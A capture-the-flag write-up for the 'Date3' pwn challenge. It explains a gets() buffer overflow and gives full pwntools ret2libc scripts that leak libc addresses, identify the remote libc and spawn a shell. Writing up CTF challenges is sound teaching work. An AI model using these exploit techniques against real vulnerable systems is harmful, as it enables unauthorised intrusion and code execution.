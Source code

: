 # Date3

```
Description
No more writable date path. Can you still pwn me?

Author
Eth007
```


We got a binary, lets check the arch and the protections etc..:

![img](images/checksec.jpg)

So only nx is enabled and its an 64 bit binary. Lets decompile it in ghidra:

![img](images/ghidra.jpg)


We can see `gets()` is used so there is an buffer overflow. We cant overwrite `date_path` anymore. We can do ret2libc here, but we dont have the remote libc. 
But we can leak and find the libc online. I already explained ret2libc [here](https://github.com/0xM4hm0ud/CTF-Writeups/tree/main/corCTF/Chainblock). So I am not gonna deep dive into it.
So we first find our offset. The offset is 264. Lets find our `pop rdi` gadget. With `ldd ./vuln` you can find the local libc for your binary. Lets create our script:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # locally

offset = 264
pop_rdi = 0x401283

io = start()

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(elf.got['puts']) 
payload += p64(elf.plt['puts']) 
payload += p64(elf.sym['main'])

io.sendlineafter(b'date?\n', payload)
io.recvlines(2)

leaked_addr = u64(io.recv(6) + b'\x00\x00')
print('leaked puts() adress: ', hex(leaked_addr))

libc.address = leaked_addr - libc.symbols['puts']
print("libc address: ", hex(libc.address))

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(next(libc.search(b'/bin/sh\x00')))
payload += p64(elf.symbols['system'])

io.sendlineafter(b'date?\n', payload)
io.clean()
io.interactive()
```
![img](images/local.jpg)

And we get our shell locally, but when running remotely it didnt work, because the libc are different. So lets leak values on remote to find the correct libc. 
So I am going to leak `puts` and `gets` address to be more accurate:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'

offset = 264
pop_rdi = 0x401283

io = start()

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(elf.got['puts']) 
payload += p64(elf.plt['puts']) 
payload += p64(elf.sym['main'])

io.sendlineafter(b'date?\n', payload)
io.recvlines(2)

leaked_addr = u64(io.recv(6) + b'\x00\x00')
print('leaked puts() adress: ', hex(leaked_addr))

io.interactive()

```
![img](images/leak.jpg)

And we leaked the remote `puts`, to leak the gets we just change:

```py
payload += p64(elf.got['puts']) 
payload += p64(elf.plt['puts']) 
```

to:

```py
payload += p64(elf.got['gets']) 
payload += p64(elf.plt['puts']) 
```

So with those 2 leaks we got find this libc on https://libc.rip/:

![img](images/libc.jpg)

So download it locally and finish the exploit:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # locally
libc = ELF('./libc6_2.31-0ubuntu9.7_amd64.so') # remotely

offset = 264
pop_rdi = 0x401283
ret = 0x40101a

io = start()

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(elf.got['puts']) 
payload += p64(elf.plt['puts']) 
payload += p64(elf.sym['main'])

io.sendlineafter(b'date?\n', payload)
io.recvlines(2)

leaked_addr = u64(io.recv(6) + b'\x00\x00')
print('leaked puts() adress: ', hex(leaked_addr))

libc.address = leaked_addr - libc.symbols['puts']
print("libc address: ", hex(libc.address))

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(next(libc.search(b'/bin/sh\x00')))
payload += p64(ret)
payload += p64(elf.symbols['system'])

io.sendlineafter(b'date?\n', payload)
io.clean()
io.interactive()
```

And we got a shell:

![img](images/flag.jpg)
